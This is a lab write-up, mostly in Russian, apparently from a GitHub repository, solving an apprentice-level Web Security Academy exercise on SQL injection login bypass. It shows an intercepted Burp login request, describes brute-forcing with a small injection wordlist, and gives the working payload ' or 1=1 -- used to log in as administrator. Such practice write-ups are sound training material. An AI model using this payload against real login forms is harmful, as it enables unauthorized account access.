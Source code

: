
<p align="center">
  <img src="./screenshots/sqli_logo.png" alt="sqli_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE

---


## 🔍 Request interception

> уязвимость SQL инъекция содержится в форме логина.

![login](./screenshots/login.png)

> Перехватываю запрос в BurpSuite:

```html

POST /login HTTP/2
Host: 0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Cookie: session=QwKY92EStw5fSX6cRdTzfx9gWuLOQXx3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Referer: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=z5OAmZIGyksJrEQZSGA4gSBt9IRqMeib&username=sonya&password=hack

```

> Для решения этой лабы нужно войти в аккаунт как `administrator`. Поэтому изменяю параметр `username` в теле запроса и отправляю запрос в `Intruder`:

![intruder_pass](./screenshots/intruder_pass.png)

> Пробую брутфорсить поле `password` стандартными инъекциями в виде небольшого словаря

> **Note:** словарь прикладываю к репозиторию (SQLi_wordlist.txt)

> Запускаю брутфорс и обнаруживаю что один из ответов отличается по длине от остальных:

![intruder_brute](./screenshots/intruder_brute.png)


> Использую инъекцию `' or 1=1 --` и логинюсь как `adminsitrator`

> Result:

![admin_user](./screenshots/admin_user.png)


![solved_lab](./screenshots/solved_lab.png)

